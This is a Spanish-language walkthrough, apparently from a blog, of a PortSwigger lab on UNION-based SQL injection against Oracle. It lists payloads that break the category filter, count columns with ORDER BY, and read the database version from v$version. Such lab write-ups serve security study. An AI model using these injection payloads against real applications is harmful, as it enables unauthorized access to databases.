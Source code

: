 ```yaml
---
title: "SQL injection attack, querying the database type and version on Oracle"
date: 2024-11-13 12:33:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - SQLI
tags:
  - SQLI (Error Based)
  - SQL injection attack, querying the database type and version on Oracle
  - Oracle Database
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `vulnerabilidad` de `inyección SQL` en el `filtro` de `categoría` de `productos`. Utilizaremos un ataque `UNION` para obtener los resultados de la consulta, para `resolver` el `laboratorio`, hay que mostrar la `versión` de la `base` de `datos`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-3/image_1.png)

Pinchamos en alguna de las `categorías`, capturamos la `petición` con `Burpsuite` y le `añadimos` una `'` a `category`

![](/assets/img/SQLI-Lab-3/image_2.png)

Si `enviamos` la `petición` nos dará un `Internal Server Error` debido a que hemos logrado `interferir` con la `consulta SQL` que se está haciendo

![](/assets/img/SQLI-Lab-3/image_3.png)

Si usamos este `payload`, ya habremos `solucionado` el `error` que se estaba produciendo en la `consulta SQL` y se mostrará lo siguiente

```
/filter?category=Lifestyle'or+1=1+--+-+
```

![](/assets/img/SQLI-Lab-3/image_4.png)

Esto se debe a que la `consulta SQL` que se debe estar haciendo debe ser esta

```
SELECT * FROM products WHERE category = 'Lifestyle'
```

Lo que hacemos cuando inyectamos `' or 1=1-- - ` es cerrar la `'` del campo `category` y usar `or 1=1` para que siempre sea verdad y por lo tanto exista, posteriormente con `-- - ` lo que hacemos es ignorar el resto de la `query`

```
SELECT * FROM products WHERE category = 'Lifestyle' OR 1=1 -- - '
```

Usando `order by` podemos identificar cuantas `columnas` tiene la `tabla`, si ponemos un `número` de `columnas` que `existe` no `obtendremos` ningún `error`

```
/filter?category=Lifestyle'order+by+2--+-+
```

![](/assets/img/SQLI-Lab-3/image_5.png)

Sin embargo, si ponemos un `número` de `columnas` que `no existe`, obtendremos un `error`, esto es debido a que estamos ante una `SQLI Error Based`

```
/filter?category=Lifestyle'order+by+3--+-+
```

![](/assets/img/SQLI-Lab-3/image_6.png)

A continuación usamos `union select` para señalar ambos campos, usamos `from dual` al final porque en este caso la base de datos es `Oracle`

```
/filter?category=Lifestyle'union+select+null,null+from+dual--+-+
```

Con este `payload` lo que hacemos es `listar` la `versión` de la `base` de `datos`

```
/filter?category=Gifts'+union+select+null,banner+from+v$version--+-
```

![](/assets/img/SQLI-Lab-3/image_7.png)
